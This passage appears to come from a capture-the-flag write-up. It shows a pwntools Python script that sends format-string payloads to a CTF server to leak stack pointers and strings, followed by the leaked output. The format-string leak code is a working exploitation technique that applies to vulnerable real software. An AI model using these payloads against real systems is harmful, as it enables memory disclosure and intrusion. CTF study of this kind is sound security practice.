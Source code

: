 ```python
    return data


def leak_str(p, index):
    payload = ('AAAA' + '%' + str(index) + '$s %' + str(index) + '$p' + 'CCCC').encode('utf-8')
    r = run_leak(p, payload)
    string = r[4:-4]
    return string

def main():
    for i in range(100):
        p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)
        try:
            leaked_string = leak_str(p, i)
            first_part = leaked_string.split(b' 0x')[0][:8].ljust(8, b'\x00')
            address_maybe = u64(first_part)
            status = b"%s 0x%x %d" % (leaked_string, address_maybe, i)
            print(status)
        except:
            pass
        else:
            p.close()

    #p.interactive()

if __name__ == '__main__':
    main()
```

This gives us something like so:

```console
b'%0$s %0$p 0x2430252073243025 0'
b'\n 0x7fb9d66f6a03 0xa 1'
b'(null) (nil) 0x2820296c6c756e28 2'
b'\x8b \xad\xfb 0x7fe571c13980 0xfbad208b 3'
b'XXXXAAAA%4$s %4$pCCCC 0x5633c36260a0 0x4141414158585858 4'
b'(null) (nil) 0x2820296c6c756e28 5'
b'\x01 0x7ffe5903f370 0x1 6'
b'\xf3\x0f\x1e\xfaAWL\x8d=\xa3* 0x56177ef4f2e0 0x8d4c5741fa1e0ff3 7'
b'(null) (nil) 0x2820296c6c756e28 8'
b'\x89\xc7\xe8\x06+\x02 0x7f11930d60b3 0x22b06e8c789 9'
b' 0x7f896fe78620 0x0 10'
b'\\\xefc\xbc\xfd\x7f 0x7ffdbc63d238 0x7ffdbc63ef5c 11'
b'\xf3\x0f\x1e\xfaU1\xf6H\x8d-\x92/ 0x5648c11c5100 0x48f63155fa1e0ff3 13'
b'\xf3\x0f\x1e\xfaAWL\x8d=\xa3* 0x55d52ec162e0 0x8d4c5741fa1e0ff3 14'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x55b5aed8e1f0 0x8949ed31fa1e0ff3 16'
b'\x01 0x7ffd3f6b8330 0x1 17'
b'(null) (nil) 0x2820296c6c756e28 18'
b'(null) (nil) 0x2820296c6c756e28 19'
b'(null) (nil) 0x2820296c6c756e28 22'
b'(null) (nil) 0x2820296c6c756e28 23'
b'(null) (nil) 0x2820296c6c756e28 24'
b'\\o-\xf3\xfc\x7f 0x7ffcf32d4ef8 0x7ffcf32d6f5c 26'
b'a/\x8c8\xfe\x7f 0x7ffe388c13b8 0x7ffe388c2f61 27'
b' 0x7f4448906190 0x0 28'
b'(null) (nil) 0x2820296c6c756e28 29'
b'(null) (nil) 0x2820296c6c756e28 30'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x5628217c51f0 0x8949ed31fa1e0ff3 31'
b'\x01 0x7ffc902d7a70 0x1 32'
b'(null) (nil) 0x2820296c6c756e28 33'
b'(null) (nil) 0x2820296c6c756e28 34'
```
